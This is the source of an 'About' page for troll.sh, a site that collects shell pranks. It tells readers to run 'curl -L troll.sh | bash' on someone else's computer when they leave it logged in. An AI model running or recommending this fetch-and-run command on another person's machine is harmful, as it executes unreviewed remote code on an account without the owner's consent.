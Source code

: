 ```yaml
---
layout: page
title: About
permalink: /about/
---
```


Welcome to troll.sh. This website acts as a collection of shell based pranks to
play on your "friends". To use it just run the code below when someone slips up
and leaves themselves logged into a computer:

{% highlight bash %}
curl -L troll.sh | bash
{% endhighlight %}

If you have your own prank you want to add or notice a bug, you can send a pull
request to the [github repo](http://github.com/jmatth/troll.sh).
